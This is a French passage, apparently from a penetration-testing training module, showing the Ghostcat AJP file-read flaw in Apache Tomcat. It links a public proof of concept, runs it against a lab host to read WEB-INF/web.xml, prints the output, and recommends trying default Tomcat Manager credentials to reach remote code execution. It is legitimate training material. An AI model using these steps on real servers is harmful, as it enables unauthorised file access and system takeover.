 L'analyse ci-dessus confirme que les ports 8080 et 8009 sont ouverts. Le code PoC de la vulnérabilité est disponible [ici](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Téléchargez le script et enregistrez-le localement. L'exploit ne peut lire que les fichiers et les dossiers du dossier des applications Web, ce qui signifie que les fichiers tels que `/etc/passwd` ne sont pas accessibles. Essayons d'accéder au fichier web.xml.

```
dsgsec@htb[/htb]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml

Obtenir des ressources sur ajp13://app-dev.inlanefreight.local:8009/asdf
-------------------------------------
<?xml version="1.0" encoding="UTF-8" ?>
<!--
  Licence accordée à Apache Software Foundation (ASF) sous un ou plusieurs
   accords de licence de contributeur. Voir le fichier NOTICE distribué avec
   ce travail pour des informations supplémentaires concernant la propriété des droits d'auteur.
   L'ASF vous concède ce fichier sous la licence Apache, version 2.0
   (la licence"); vous ne pouvez pas utiliser ce fichier sauf en conformité avec
   la licence. Vous pouvez obtenir une copie de la licence à

       http://www.apache.org/licenses/LICENSE-2.0

   Sauf si requis par la loi applicable ou convenu par écrit, le logiciel
   distribué sous la Licence est distribué sur une BASE "TEL QUEL",
   SANS GARANTIE OU CONDITION D'AUCUNE SORTE, expresse ou implicite.
   Consultez la licence pour connaître les autorisations spécifiques à la langue et
   limitations en vertu de la Licence.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                       http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
   version="4.0"
   metadata-complete="true">

   <display-name>Bienvenue dans Tomcat</display-name>
   <description>
      Bienvenue sur Tomcat
   </description>

</web-app>

```

Dans certaines installations de Tomcat, nous pouvons être en mesure d'accéder à des données sensibles dans le fichier WEB-INF.

* * * * *

Passer à autre chose
---------

Tomcat est toujours une excellente trouvaille sur les tests de pénétration internes et externes. Chaque fois que nous le rencontrons, nous devons tester la zone Tomcat Manager pour les informations d'identification faibles/par défaut. Si nous pouvons nous connecter, nous pouvons rapidement transformer cet accès en exécution de code à distance. Il est courant de trouver Tomcat exécuté en tant qu'utilisateurs à privilèges élevés tels que SYSTEM ou root, il vaut donc toujours la peine de creuser car il pourrait nous fournir un pied privilégié sur un serveur Linux ou un serveur Windows joint à un domaine dans un environnement Active Directory.